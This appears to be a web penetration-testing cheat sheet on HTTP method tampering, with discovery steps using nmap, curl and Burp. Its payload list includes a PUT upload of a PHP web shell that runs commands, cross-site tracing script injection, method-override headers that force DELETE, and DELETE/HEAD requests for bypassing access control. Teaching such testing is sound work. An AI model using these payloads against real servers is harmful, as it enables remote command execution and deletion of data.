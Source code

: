 ### Common HTTP Methods and Payloads

Below is a list of common HTTP methods and payloads to test for vulnerabilities. Start with discovery and escalate based on server responses. Use with caution in controlled environments to avoid unintended modifications.

- **Common HTTP Methods**:
  - `GET`: Retrieve resources.
  - `POST`: Submit data.
  - `HEAD`: Retrieve headers.
  - `OPTIONS`: List supported methods.
  - `PUT`: Upload files.
  - `DELETE`: Remove resources.
  - `TRACE`: Echo request (potential XST).
  - `CONNECT`: Proxy tunneling.

- **Discovery Payloads**:
  - `OPTIONS / HTTP/1.1`
  - `GET / HTTP/1.1` (baseline)

- **PUT Method Payloads**:
  - `PUT /test.html HTTP/1.1` with body: `<html>Test</html>`
  - `PUT /malicious.php HTTP/1.1` with body: `<?php system($_GET['cmd']); ?>`

- **Access Control Bypass Payloads**:
  - `HEAD /admin HTTP/1.1`
  - `DELETE /admin HTTP/1.1`

- **XST Payloads**:
  - `TRACE / HTTP/1.1` with `Random: Header`
  - `TRACE / HTTP/1.1` with `Attack: <script>alert('XST')</script>`

- **Method Override Payloads**:
  - `POST /resource HTTP/1.1` with `X-HTTP-Method-Override: DELETE`
  - `POST /resource HTTP/1.1` with `X-Forwarded-Method: DELETE`

- **API Gateway Payloads**:
  - `PUT /api/v1/resource HTTP/1.1` with `Authorization: Bearer <token>`
  - `POST /api/v1/resource HTTP/1.1` with `X-Method: DELETE`

**Note**: Method behavior depends on the server (e.g., Apache, Nginx), application framework, and infrastructure (e.g., Cloudflare, AWS API Gateway). Test methods on critical endpoints (e.g., `/admin`, `/api`) to maximize impact.

### 1. Discover Supported HTTP Methods

**Objective**: Enumerate HTTP methods supported by the web server.

**Detection/Exploitation**: Discovery only

**Steps**:
1. Use Nmap:
   - Run:
     ```bash
     nmap -p 80,443 --script http-methods --script-args http-methods.url-path='/index.php' example.com
     ```
   - Check for: `GET`, `POST`, `OPTIONS`, `HEAD`.
2. Use cURL:
   - Run:
     ```bash
     curl -X OPTIONS http://example.com
     ```
   - Look for `Allow` header: `Allow: GET, POST, HEAD`.
3. Use Burp Suite:
   - Send `OPTIONS` request in Repeater.
   - Verify supported methods.
4. Check for unsafe methods:
   - Look for: `PUT`, `DELETE`, `TRACE`.